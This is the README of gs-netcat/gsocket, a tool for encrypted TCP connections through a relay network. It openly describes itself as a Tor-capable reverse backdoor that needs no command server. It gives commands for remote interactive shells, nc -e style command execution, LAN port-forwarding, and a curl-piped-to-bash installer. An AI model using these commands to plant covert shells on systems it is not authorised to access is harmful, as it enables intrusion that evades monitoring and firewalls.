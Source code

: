 # Global Socket
**Moving data from here to there. Securely, Fast and trough NAT/Firewalls.**

Global Socket allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

**Features:**
- Uses the Global Socket Relay Network to connect TCP pipes
- End-2-End encryption (using OpenSSL's SRP / [RFC 5054](https://tools.ietf.org/html/rfc5054))
- AES-256 with a 4096 Prime
- No PKI required.
- Perfect Forward Secrecy
- TOR support (optional)

Abandon your thinking that an IP Address is needed to communicate with somebody. Instead start thinking that two Users should be able to communicate with each other as long as they know the same secret (key/password). The Global Socket Library handles the rest: It locally derives temporary session keys and IDs and finds the other User in the Global Relay Network. Once found the library then negotiates a secure TLS connection between both Users (End-2-End). **The Relay Network sees only the encrypted traffic**.

The library comes with example tools. Gs-netcat is a re-implementation of netcat. It supports the well loved *-e* option and spwans a true PTY/interactive command shell on a remote host. Effectively an AES-256 encrypted reverse backdoor via TOR (optional) and without the need of a Command & Control server. It can also be used to tunnel a friend into your local network or to give somebody temporary shell access to your workstation.

Direct Download: [gsocket-1.4.11.tar.gz](https://github.com/hackerschoice/gsocket/releases/download/v1.4.11/gsocket-1.4.11.tar.gz)

BETA BETA BETA. PRIVATE RELEASE ONLY.
---
**Installation:**
```
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/hackerschoice/gsocket/master/install.sh)"
```
---
**Usage:**

1. Log in to *Host* from *Workstation* through any firewall/NAT
```
$ ./gs-netcat -l -i   # Host
$ ./gs-netcat -i      # Workstation
```

2. Transfer files from *Workstation* to *Host*
```
$ gs-netcat -l -r >warez.tar.gz    # Host
$ gs-netcat <warez.tar.gz          # Workstation
```

3. Port forward. *Workstation's* Port 2222 is forwarded to 192.168.6.7 on *Host's* private LAN
```
$ gs-netcat -l -d 192.168.6.7 -p 22 # Host
$ gs-netcat -p 2222                 # Workstation
$ ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Host's private LAN
...or...
$ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22                   # Host
$ ssh -o ProxyCommand='gs-netcat -s MySecret' root@doesnotmatter  # Workstation
```

4. Execute any command (nc -e style)
```
$ gs-netcat -l -e "echo hello world; id; exit"   # Host
$ gs-netcat                                      # Workstation
```

5. Quick Secure Chat with a friend:
```
$ gs-full-pipe -s MySecret -A               # You
$ gs-full-pipe -s MySecret -A               # Them
```

6. SoCAT 2 
```
gs-netcat can be used in a socat address-chain using the EXEC target. Happy bouncing. Enjoy. :> 
```
---
**Pro-Tips:**

1. Force Tor or fail:
```
$ export GSOCKET_SOCKS_IP=127.0.0.1
$ export GSOCKET_SOCKS_PORT=9050
```

2. A reverse backdoor

The backdoor supports multiple concurrent connections and spawns a real PTY/interactive-shell with ctrl-c and colors working (like OpenSSH does).
```
$ gs-netcat -k keyfile.txt -l -i    # Host
$ gs-netcat -k keyfile.txt -T -i    # Workstation (via Tor & Global Socket Relay)
```

3. Use -k

Using -s is not secure. Add your *secret* to a file and use -k &lt;filen&gt; or pipe your password into the programme (Note the 3x '<').
```
$ gs-netcat -li <<<"MySecretPassword"
```
---
**Crypto / Security Mumble Jumble**
1. The security is end-2-end. This means from User-2-User (and not just to the Relay Network). The Relay Network relays only (encrypted) data to and from the Users. 
2. The session key is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password).
3. The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
4. Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *gs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
5. If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
6. If Alice shares the same password with Bob and Malice and Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) could not tell if he is connecting to Alice or to Malice. Use -a &lt;token&gt; if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
7. SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
8. I did not invent SRP. It's part of OpenSSL :>
---

Join us 

Telegram: https://t.me/thcorg 

Twitter: https://twitter.com/hackerschoice

shoutz: D1G, xaitax, #!adm

